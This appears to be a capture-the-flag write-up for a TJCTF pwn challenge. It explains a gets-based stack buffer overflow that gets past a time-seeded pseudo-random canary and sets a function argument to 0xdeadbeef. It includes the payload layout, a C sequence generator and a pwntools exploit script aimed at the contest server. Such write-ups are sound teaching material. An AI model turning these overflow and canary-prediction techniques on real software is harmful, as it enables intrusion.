 To get the flag we have to change the argument of `interview` function to `0xdeadbeef`. We have obvious buffer overflow since code uses `gets`, but what about a check after? Somehow we have to know the value of canary and overwrite it with correct values.

The solution is to generate the same (pseudo)random sequence program is generating since the seed is just current time, and use that. So payload we are going to try is:

    'A'*64 + generated_sequence + 0xa +0xa + p32(0xdeadbeef)*6

I have chosen value `0xa` for `i`,`j` since comparison done in the following way

    secret - i + j 

and j is getting set to 10 (`0xa`) in loop after our input. But we have a problem, `0xa` is also newline and will stop `gets` input. So we have to modify our result a bit.

    'A'*64 + generated_sequence + 0x9 +0x9 + p32(0xdeadbeee)*6

Note that we also had to modify the address since now value will be incremented by one. So let's write code to automate this. Since random is probably different in c and python, we use c code to generate the sequence.

~~~c
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
int main()
{
    int i;
    srand(time(NULL));
    for (i = 0; i < 10; ++i) {
        printf("%u ",rand());
    }
    return 0;
}
~~~

And our python script:

~~~python
#!/usr/bin/env python
from pwn import *
import sys

if __name__ == "__main__":
	context.arch = 'i386'
	context.os   = 'linux'
	context.terminal = ["terminator", "-e"]

	
	random_nums = []
	for line in sys.stdin:
		random_nums = line.split(' ')[:10]
	#r = process('./interview')
	r = remote('problem1.tjctf.org', 8000)
	r.recvuntil('What is your name?\n')
	#gdb.attach(r)
	p =  'A' * 64
	for rand in random_nums:
		p+= p32(int(rand))
	p += p32(0x9)*2
	p += p32(0xdeadbeee)*6
	r.sendline(p)
	print r.recvline()
    r.interactive()
~~~
